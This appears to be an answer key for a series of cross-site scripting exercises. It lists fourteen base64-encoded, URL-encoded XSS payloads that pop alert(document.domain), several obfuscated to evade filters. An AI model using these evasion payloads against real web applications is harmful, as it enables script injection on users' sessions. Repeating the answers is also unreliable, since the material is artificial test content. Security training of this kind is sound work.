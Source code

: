 # Solutions
Base64 of possible solutions.

Please try as hard as possible before looking at the possible solutions. 

___


Example 1

```
MSUyOSU3QiU3RCU3RCUzQmFsZXJ0JTI4ZG9jdW1lbnQuZG9tYWluJTI5JTNCZnVuY3Rpb24lMjB4eXolMjglMjklN0JpZiUyMCUyODElM0QlM0QlM0Qx
```
Example 2

```
JTI3LWFsZXJ0JTI4ZG9jdW1lbnQuZG9tYWluJTI5LSUyNw==
```

Example 3 (contains at least 3 different possible payloads. Some may require user interaction)

```
amF2YXNjcmlwdCUzQWFsZXJ0JTI4MSUyOSUzQiUyMm9uY2xpY2slM0QlMjJhbGVydCUyODIlMjklMjIlM0UlM0NzY3JpcHQlM0VhbGVydCUyODMlMjklM0Mvc2NyaXB0JTNF
```

Example 4

```
JTI3JTNCJTdEJTdEJTNCYWxlcnQlMjhkb2N1bWVudC5kb21haW4lMjklM0JmdW5jdGlvbiUyMHh5eiUyOCUyOSU3QiUyMGlmJTIwJTI4MSUzRCUzRCUzRDElMjklN0IvLw==
```

Example 5

```
JTI3KmFsZXJ0JTI4ZG9jdW1lbnQlNUIlMjdkb21haW4lMjclNUQlMjkqJTI3
```

Example 6 (several solutions are possile)

```
JTI3JTJiZXZhbCglMjdhJTI3JTJiJTI3bGUlMjclMmIlMjdydCUyNyUyYiUyNyUyNyUyYiUyNyhkb2N1bSUyNyUyYiUyN2VudCUyNyUyYiUyNy4lMjclMmIlMjdkb20lMjclMmIlMjdhaW4pJTI3JTJiJTI3JTI3KSUyYiUyNw==
```
Example 7

```
JTI3KndpbmRvdyU1QiU1QiUyN2ElMjclMkMlMjdsJTI3JTVELmNvbmNhdCUyOCU1QiUyN2VyJTI3JTJDJTI3dCUyNyU1RCUyOS5qb2luJTYwJTYwJTVEJTI4ZG9jZG9jdW1lbnR1bWVudCU1QiUyN2RvbWFpbiUyNyU1RCUyOSolMjc=
```

Example 8

```
JTI3KmFsYWxlcnRlcnQlNjB4c3MlNjAqJTI3
```

Example 9

```
JTVDeDI3JTVDeDNiJTVDeDYxJTVDeDZjJTVDeDY1JTVDeDcyJTVDeDc0JTVDeDI4ZG9jdW0lNUN4NjVuJTVDeDc0JTVDeDJFZG9tJTVDeDYxaW4lNUN4MjklNUN4MmYlNUN4MmY=
```

Example 10 (read the php file)

```
MSMlMjUzQ3NjcmlwdCUyNTNFYWxlcnQoZG9jdW1lbnQuZG9tYWluKSUyNTNDL3NjcmlwdCUyNTNF
```

Example 11

```
JTVDdTAwNjElNUN1MDA2YyU1Q3UwMDY1JTVDdTAwNzIlNUN1MDA3NCUyOCU1Q3UwMDY0JTVDdTAwNmYlNUN1MDA2MyU1Q3UwMDc1JTVDdTAwNmQlNUN1MDA2NSU1Q3UwMDZlJTVDdTAwNzQuJTVDdTAwNjQlNUN1MDA2ZiU1Q3UwMDZkJTVDdTAwNjElNUN1MDA2OSU1Q3UwMDZlJTI5JTNC
```

Example 12

```
YSUyNyk7YWxlcnQoZG9jdW1lbnQuZG9tYWluKTthdG9iKCUyN2E=
```

Example 13

```
JTNDYSUyMA==
aHJlZiUzRCUyNyUwRGphdmFzY3JpcHQlM0ElMEFhbGVydChkb2N1bWVudC5kb21haW4pJTI3JTNFY2xpY2slMjBtZSUzQy9hJTNF
```

Example 14

```
JTI0JTdCYSU1QjElNUQlN0QlMjQlN0JlbGUlN0QlMjQlN0JhJTVCMiU1RCU3RCUyNCU3QnRleHQlN0QlMjQlN0JhJTVCMSU1RCU3RCUyNCU3QmElNUIwJTVEJTdEJTI0JTdCZWxlJTdEJTI0JTdCYSU1QjIlNUQlN0Q=
```
